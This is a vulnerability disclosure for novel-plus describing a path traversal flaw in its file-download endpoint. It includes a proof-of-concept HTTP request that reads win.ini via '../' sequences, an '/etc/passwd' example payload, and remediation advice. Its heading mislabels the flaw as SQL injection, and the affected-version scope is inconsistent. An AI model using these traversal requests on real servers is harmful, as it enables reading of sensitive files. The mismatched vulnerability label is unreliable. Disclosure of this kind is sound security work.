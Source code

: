 ## Vulnerability Submitter

##### Name:  邓俊锋

## SQL injection vulnerability exists in novel-plus v5.1.0

**Vulnerability Impact Scope**

`novel-plus< v5.1.0`

**official website**

 https://novel.xxyopen.com/index.htm

**github**

https://github.com/201206030/novel-plus

### Vulnerability Overview

Directory traversal vulnerability is a common web security flaw that allows attackers to access unauthorized files or directories on a server through specially crafted URL paths. This vulnerability typically arises due to insufficient validation of user input by the web application, enabling attackers to construct specific URL paths to access sensitive files on the server.

### JavaWeb code auditing process

**Source file: **

`novel-admin\src\main\java\com\java2nb\common\controller\FileController.java,lines179-197.`

![image-20250402224625364](\img\1.png)This code has a path traversal vulnerability for the following reasons:

1. **Unvalidated user-controllable parameter**:
- The `filePath` parameter is user-controlled, and the code does not perform any validation or filtering on it.
- An attacker can craft malicious `filePath` values (e.g., `../../etc/passwd`) to access sensitive files on the server, potentially leading to unauthorized data exposure.
2. **Path concatenation issue**:
- The code directly concatenates the user-input `filePath` with the upload path:
```java
String realFilePath = jnConfig.getUploadPath() + filePath;
```
- If `filePath` contains path traversal characters (e.g., `../`), it can bypass the intended upload directory restrictions and access arbitrary directories on the server.
3. **No restrictions on file access scope**:

- The code lacks restrictions on file access scope, allowing an attacker to exploit the path traversal vulnerability and access arbitrary files on the server.

### Vulnerability reproduction

**Vulnerability Route:** `/common/sysFile/download`

**Vulnerable Parameter:** `filePath`

1. Log in using the admin account to obtain the session cookie (which grants administrator privileges)

![image-20250219195734596](\img\2.png)

2.Subsequent testing demonstrates that a directory traversal attack successfully retrieved sensitive data from the `Windows/win.in` file.

![](\img\3.png)

**POC**

```HTTP
GET /common/sysFile/download?filePath=../../../../Windows/win.ini&fileName=test.txt HTTP/1.1 
Host: 192.168.200.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.200.1/main
Cookie: JSESSIONID=a3d5047e-3a4f-4454-8ba1-00053268b01a
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
```

### **Vulnerability Remediation Recommendations**

1. **Strictly Validate User Input:**

   Conduct legitimacy checks on user-provided file names and path parameters. Filter out path traversal sequences such as ../, ..\, and URL-encoded forms (e.g., %2e%2e%2f).

2. **Use a whitelist mechanism:** 

   allow only specific character sets (such as letters, numbers, underscores) or file extensions (such as .jpg, .pdf).